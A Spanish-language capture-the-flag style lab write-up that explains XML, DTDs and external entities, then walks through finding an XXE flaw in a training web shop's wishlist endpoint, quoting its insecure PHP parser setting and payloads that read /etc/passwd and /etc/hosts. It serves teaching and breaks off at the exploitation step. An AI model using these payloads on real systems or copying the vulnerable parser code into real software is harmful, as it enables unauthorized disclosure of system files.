 # Objetivos de aprendizaje

- Conceptos básicos relacionados con XML
- Explorar XML y (XXE) en los componentes
- Aprender como explotar vulnerabilidaes
- Entender formas de remediar el ataque

# Conceptos importantes

Extensible Markup Language (XML)

XML es comunmente utilizado para transportar y guardar datos de forma estructurada para que humanos y máquinas lo puedan entender. Considera un escenario donde dos ordenadores necesitan comunicarse y guardar datos.

La comunicación entre los dos comunmente es un cambio de información. Esto se hace es formato XML. Usando "tags" para la información de la organización. Estos tags son como archivos que definen este tipo de datos guardados.

```
<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

En este caso los tags "people", "name", "addres" son como carpetas en una cabina, y luego dentro el contenido que tienen "glitch" etc representa los datos guardados. 

Document Type Definition (DTD) 

Ahora que sabemos como guardar datos entre dos ordenadores, que sabemos sobre su estructura? aqui es donde utilizaremos DTD. DTD coge una serie de reglas y define la estructura del documentos XML. Es como el esquema de una base de datos.

Por ejemplo si queremos asegurarnos que un documento XML sobre gente debe incluir siempre "name" "address" "enaim" 

```
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
```

Donde vemos "Element "define el elemento el tag como nombre, dirección ,etc dentro de los datos peopple

### Entidades

Tenemos que tener en cuenta que ambos ordenadores permitan el foramto, los datos estrucutrados y los tipos de daots. Normalmente siempre es así

Las entidades se pueden definir intenranmente con el documento o externamente, referenciado a datos de otro codigo

Por ejemplo, una entidad enterna refiere a un archivo o recurso externo. Si seguimos el codigo seguramente veamos "&ext& refiriendose al archivo por jeemplo "http://tryhackme.com/robots.txt"

```
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

### XML External Entity (XXE)

Depués de entender XML y como funcionan las entidades, vamos a explorar las vulnerablidades XXE. Es una foram de ataque en el que manejamos con entidades externas. Donde la aplicacion web procesa un archivo externo. 

Por ejemplo

```
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

Como podemos ver la entidad "&thmFile" se refiere al archivo sensible /etc/passwd de lsistema.

# Practico

Ahora que hemos entendido los conceptos vamos a ello

```
http://10.10.107.21
```

![image](https://github.com/user-attachments/assets/92cbac48-5f43-4210-afe1-284e66f989f2)

## Flujo de la aplicación

Como Penetration tester, es importante analizar la aplicación, primero buscaremos en el navegador donde estan dichos productos

```
http://ip/product.php
```

![image](https://github.com/user-attachments/assets/079314eb-43f7-41f0-9d98-095b0c81ae64)

Despues de añadir un producto por ejemplo, nos vamos a al buzon

```
http://ip/cart.php
```

![image](https://github.com/user-attachments/assets/857de163-e9f6-4034-8346-cf6d47402e69)

Procedemos al checkout

![image](https://github.com/user-attachments/assets/21800431-e936-4ed0-9189-71a6bc595eba)

![image](https://github.com/user-attachments/assets/3f3e77c9-45f1-4516-a1f3-47a39bca2df9)

Nos da un Wish #21 indicando que esta en la web pero no hay nada solo es accesible parece ser por admin

![image](https://github.com/user-attachments/assets/d0222382-afbf-4202-b4ff-5c19d7686545)

## Interceptar la request

Antes de explotar cualquier vulnerabilidad vamos a interceptar las consultar y vamos a configurar y manipular el navegador (BurpSuite)

Visitaremos la URL 

```
http://ip/product.php
```
```
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>1</product_id>
     </item>
</wishlist>
```

Esto es el wishlist.php

```
<?php
..
...
libxml_disable_entity_loader(false);
$wishlist = simplexml_load_string($xml_data, "SimpleXMLElement", LIBXML_NOENT);

...
..
echo "Item added to your wishlist successfully.";
?>
```

## Preparar el Payload

Cuando el usuario craftear datos con XML hay una linea "libxml_disable_entity_loader(false9" que se refiere a datos externos. Esto incluye datos o consultas a otros navegadores luego lo procede " simplexml_load_string" resolviendo consultas externas

Si nosotros lo actualizamos y cluimos referencias que puede pasar?

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Cuando mandemos este payload nos saldra /etc/hosts

## Explotación

Ahora que tneemos ya el archivo y todo nos iremos a "repeater" dentro de wishlist.php




